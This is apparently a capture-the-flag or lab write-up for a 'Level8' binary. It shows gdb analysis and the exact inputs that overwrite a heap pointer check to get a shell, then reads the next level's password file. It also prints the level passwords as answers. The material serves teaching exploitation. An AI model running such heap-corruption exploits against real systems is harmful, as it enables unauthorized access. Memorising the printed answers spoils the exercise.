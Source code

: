 # Level8 -

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level8 | `5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9` |
| level9 | `c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute level8

```shell
./level8
> (nil), (nil)
a
> (nil), (nil)
b
(...)
```

Lets debug the binary

```shell
(gdb) info functions
0x08048564  main
```

See our assembly interpretation in [source file](../source.c)

To access to the new access, the byte at `*auth + 0x20` has to be not null.

It means `0x804a008 + 0x20` => `0x804a028` has to be not null

First we have to define `auth`:

```shell
~/level8
> (nil), (nil) # auth, service
auth a
> 0x804a008, (nil)  # auth, service
```

Malloc returns a pointer to `0x804a008`

If the input is "service", it calls `strdup` and allocates a new part of memory.

```shell
service
> 0x804a008, 0x804a018  # auth, service
```

The pointer `service` aims to 0x804a018.

Two solutions:

- either allocate a new part of memory starting at `0x804a028` using `strdup`:

```shell
> 0x804a008, 0x804a018  # auth, service
service
> 0x804a008, 0x804a028 # auth, service
login
$ # here the shell is
```

- _(after restart ./level8 to set `service` at `null`)_ <br />
  or write a string big enough to erase the address `0x804a028`: (`0x804a028 - 0x804a010 = 0x10` => 16 bytes)

```shell
> 0x804a008, (nil)  # auth, service
service0123456789abcdef
> 0x804a008, 0x804a028 # auth, service
login
$ # here the shell is
```

Finally we can get the pass !

```shell
$ whoami
> level9
$ cat /home/user/level9/.pass
> c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

---

## Sources

### ASM

- [What do the assembly instructions 'seta' and 'setb' do after repz cmpsb?](https://stackoverflow.com/questions/44630262/what-do-the-assembly-instructions-seta-and-setb-do-after-repz-cmpsb/44630741)
- [REPNZ SCAS Assembly Instruction Specifics](https://stackoverflow.com/questions/26783797/repnz-scas-assembly-instruction-specifics)
- [x86 Registers](https://www.eecg.utoronto.ca/~amza/www.mindsec.com/files/x86regs.html)
- [x86 Instruction Set Reference - REP/REPE/REPZ/REPNE/REPNZ](https://c9x.me/x86/html/file_module_x86_id_279.html)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man free](https://linux.die.net/man/3/free)
- [Man fwrite](https://linux.die.net/man/3/fwrite)
- [Man malloc](https://linux.die.net/man/3/malloc)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man strcpy](https://linux.die.net/man/3/strcpy)
- [Man strdup](https://linux.die.net/man/3/strdup)
- [Man system](https://linux.die.net/man/3/system)

```

```
